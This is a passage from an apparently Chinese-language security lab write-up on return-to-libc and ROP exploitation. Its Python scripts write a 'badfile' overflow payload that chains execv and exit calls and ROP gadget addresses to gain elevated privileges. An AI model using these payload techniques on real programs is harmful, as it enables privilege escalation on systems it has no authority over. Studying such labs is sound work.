 ```py
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 0x1c+4
exit_addr = 0xf7e04f80     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')


pathname = 0xffffd402
argv = input_start + 0x1c + 16
argv0 = 0xffffd402
argv1 = 0xffffd605
argv2 = 0x0

content[X+4:X+8] = (argv).to_bytes(4,byteorder='little')
content[X+8:X+12] = (argv0).to_bytes(4,byteorder='little')
content[X+12:X+16] = (argv1).to_bytes(4,byteorder='little')
content[X+16:X+20] = (argv2).to_bytes(4,byteorder='little')


# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```
代码解读：
1. 栈变成 execv -> exit -> argv -> argv[0] -> argv[1] -> argv[2]

最终获得权限：
![](a6.png)

# ROP

寻找gadget：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102153467.png)
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102155335.png)
并且再次获取一些libc的函数地址（包括setuid）：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102155156.png)
根据前面的知识，构造：
```py
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))


bias = 0x1c
input_start = 0xffffcdc0
bof_start = 0xffffcd90
zero = 0x0


gadget1 = 0x565563a5   # gadget 1 
content[bias:bias+4] = (gadget1).to_bytes(4,byteorder='little')

ecx = input_start + bias + 20 + 4    
 
#ecx
content[bias+4:bias+8] = (ecx).to_bytes(4,byteorder='little')
#cut
content[bias+16:bias+20] = (zero).to_bytes(4,byteorder='little')
```